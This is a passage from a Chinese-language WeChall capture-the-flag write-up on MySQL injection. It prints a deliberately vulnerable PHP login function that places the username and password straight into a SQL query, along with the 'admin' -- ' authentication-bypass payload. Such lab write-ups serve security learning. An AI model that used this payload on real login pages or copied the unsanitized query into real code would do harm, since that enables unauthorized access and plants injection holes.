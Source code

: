# wechall mysql 关卡题解

2014/03/26 18:01 | [蓝蓝](http://drops.wooyun.org/author/蓝蓝 "由 蓝蓝 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

特别鸣谢 Random Debug Slipper 对我的无私帮助

PS:虽然是一份题解，但是其中某些题目的解法还有些不尽人意。如有更好的思路欢迎留言评论 :)

QQ:915910623

## Training: MySQL I

* * *

最简单的注入情况，参数没有经过任何过滤就带入查询

漏洞代码：

```
function auth1_onLogin(WC_Challenge $chall, $username, $password)
{
        $db = auth1_db();

        $password = md5($password);

        $query = "SELECT * FROM users WHERE username='$username' AND password='$password'";

        if (false === ($result = $db->queryFirst($query))) {
                echo GWF_HTML::error('Auth1', $chall->lang('err_unknown'), false); # Unknown user
                return false;
        }

        # Welcome back!
        echo GWF_HTML::message('Auth1', $chall->lang('msg_welcome_back', htmlspecialchars($result['username'])), false);

        # Challenge solved?
        if (strtolower($result['username']) === 'admin') {
                $chall->onChallengeSolved(GWF_Session::getUserID());
        }

        return true;
}

```

利用语句：

```
username=admin' -- 
```

## MySQL Authentication Bypass II
